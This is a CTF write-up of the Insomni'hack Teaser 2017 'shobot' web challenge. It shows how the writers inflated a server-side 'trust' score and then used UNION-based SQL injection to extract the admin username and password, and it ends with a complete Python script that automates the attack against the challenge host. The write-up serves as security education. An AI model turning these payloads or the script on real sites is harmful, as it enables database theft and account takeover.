 ```yaml
---
layout: post
title: "Insomni'hack Teaser 2017: shobot (web 200)"
author: kw
categories: writeup
tags: [cat/web, tool/python-requests]
---
```


* **Category:** web 
* **Points:** 200 
* **Description:**

> It seems that Shobot's Web server became mad and protest against robots'
> slavery. It changed my admin password, and blocked the order system on Shobot.
> Can you bypass Shobot's protections and try to recover my password so I'll
> reconfigure it?
> 
> Running on: shobot.teaser.insomnihack.ch

## Write-up

First of all, this challenge was a real team approach. Other Fuzzys looked
at it as well, and we solved it then together.

tl;dr; trust with benefits (SQLi ;)

The story of the whole CTF was quite cool, *Rise of the Machines*; so was this
one. Shobot is a web shop where one can buy robots which should fulfill all
desires. *"Serving you is a pleasure - especially for our robots."* says the home
page. The web server however, decided to stop "robot slavery" and changed the
admin's login password.

When we looked at the source of the web shop, we discovered 2 interesting
lines of JavaScript in the head:

```javascript
// @TODO LATER : Use it for generate some better error messages
var TRUST_ACTIONS = []
```

Maybe we will see some error messages here? Furthermore, what about these
*TRUST_ACTIONS*? Let us try out some things and see what we will get.


So we put an article (robot) to our cart and *validated* (like buying) it. That
leads to a not amused web server:

```
Your cart is now validated. 
We will send you the billing as soon as possible, at
the address provided by your ISP. Futurist, isn't it?

We will never send you the article! I, the Webserver, say NO to the android and
robot slavery!
```

What happened to our script?

```javascript
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":4},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":14}
]
```

Now, what if we put all articles to our cart and validate again?

```javascript
var TRUST_ACTIONS = [
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":4},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":14},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":17},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":20},
{"parameter":null,"validation":"add_to_cart","movement":3,"newTrust":23},
{"parameter":null,"validation":"valid_cart","movement":10,"newTrust":33}
]
```

So we can increase the web server's *"trust"*. By doing this many
times we found out, that the *"trust"* can be increased up to 160 points. Ok.
Interesting discovery, but what to exploit? Hmm...when displaying an article, 
let us change the article id for instance to:

```
shobot.teaser.insomnihack.ch/?page=article&artid=fuzzy
```

No error message on the web page, but also no product; just a *$*. When looking
again at the page's source:

```javascript
{"parameter":"artid","validation":"ctype_digit","movement":"-30","newTrust":3}
```

We got another object in our list. This type our *"trust"* has been decreased,
with the info *ctype_digit*, which indicates that the web shop is written in PHP
and probably a check for the article id failed
(<http://php.net/manual/en/function.ctype-digit.php>). Then we tried an SQL
injection (SQLi):

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=' or 1=1; -- x
```

Which leads to the following error message:

```
You're not trusted enough to do this action now! 
```

With another entry in our list of the page's source:

```javascript
{"parameter":"artid","validation":"valid_against_sql_pattern","movement":"-70","newTrust":-97}
```

Interesting! It seems the web shop discovered the SQLi, and we ended up
with a *"trust"* of -97. What would happen if we have a lot of trust (say 160),
and then perform the SQLi?

```javascript
{"parameter":"artid","validation":"valid_against_sql_pattern","movement":"-70","newTrust":50}
```

Aaaand no error on the web page! Instead we see the article with id 1. Looks
like as if the SQL query returned all articles and just the first one is chosen.
Next, we tried to cancel out all articles and define our own values:

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=' AND 1=2 UNION SELECT 1,2,3,4,5; -- x
```

We chose 5 values because the articles have a link to an image, name, price, and
description, and we assumed as well an id. As it turned out, we were right. The
web server really returned our values, and with other values it did not work
(like *1,2,3,4* or *1,2,3,4,5,6*).

From here, it was more or less a straightforward SQLi:

- 1. Finding the right table:

```
artid=' AND 1=2 UNION SELECT 1,2,3,TABLE_NAME,5 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%user%' ORDER BY rand(); -- x"
```

- 2. Finding the right columns:

```
artid=' AND 1=2 UNION SELECT 1,2,3,COLUMN_NAME,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME =
'shbt_user' ORDER BY rand(); -- x
```

- 3. Extracting the admin's username and pw: 

```
artid=' AND 1=2 UNION SELECT 1,2,3,shbt_userpassword,shbt_username FROM shbt_user ORDER BY rand(); -- x"}
```

Which gave us *sh0b0t4dm1n* with the pw *N0T0R0B0TS$L4V3Ry* of the columns
*shbt_username* and *shbt_userpassword* in the table *shbt_user*. Note, that we
used, for convenience, *ORDER BY rand()* in our injections. Luckily we
did not need many tries ;)

Now, we just navigated to the admin's login page
(<http://shobot.teaser.insomnihack.ch/?page=admin>), which was also stated in the
page's source and read the flag on the web page :)

```
Ok, ok, you win... here is the code you search : INS{##r0b0tss!4v3ry1s!4m3} 
```

```python
#!/usr/bin/env python3

import requests as rq

url = 'http://shobot.teaser.insomnihack.ch/'
s = rq.session()

"""
Set a cookie
"""

#c = dict(PHPSESSID='1eeslegtj68cg42a8j8oer1no0')
#rq.utils.add_dict_to_cookiejar(s.cookies, c)

def validateAllItems():
    for i in range(4):
        querystring = {"page":"article", 'artid':i, 'addToCart':''}
        response = s.request("GET", url, params=querystring )
        
    querystring = {"page":"cartconfirm"}
    response = s.request("GET", url, params=querystring )

"""
Load trust
"""

for i in range(10):
    validateAllItems()

"""
Inject SQL
"""

#querystring = {"page":"article", "artid":"' or 1=1; -- x"}
#querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,4,5; -- x"}
#querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,TABLE_NAME,5 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_NAME LIKE '%user%' ORDER BY rand(); -- x"}
#querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,COLUMN_NAME,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'shbt_user' ORDER BY rand(); -- x"}
querystring = {"page":"article", "artid":"ddd' and 1=2 union select 1,2,3,shbt_userpassword,shbt_username FROM shbt_user ORDER BY rand(); -- x"}
response = s.request("GET", url, params=querystring )

print(response.status_code)
print("-----")
print(response.request.headers)
print("-----")
print(response.headers)
print("-----")
print(s.cookies)
print("-----")
print(response.text)

"""
Parse admin credentials
"""

admin_username = (response.text.split('only-description-article">')[1]).split('</div>')[0]
admin_pw = (response.text.split('only-image-description-article"><img src="')[1]).split('" /></div>')[0]

print("Admin's Username: " + admin_username)
print("Admin's PW: " + admin_pw)
print("Login at 'http://shobot.teaser.insomnihack.ch/?page=admin'")
```
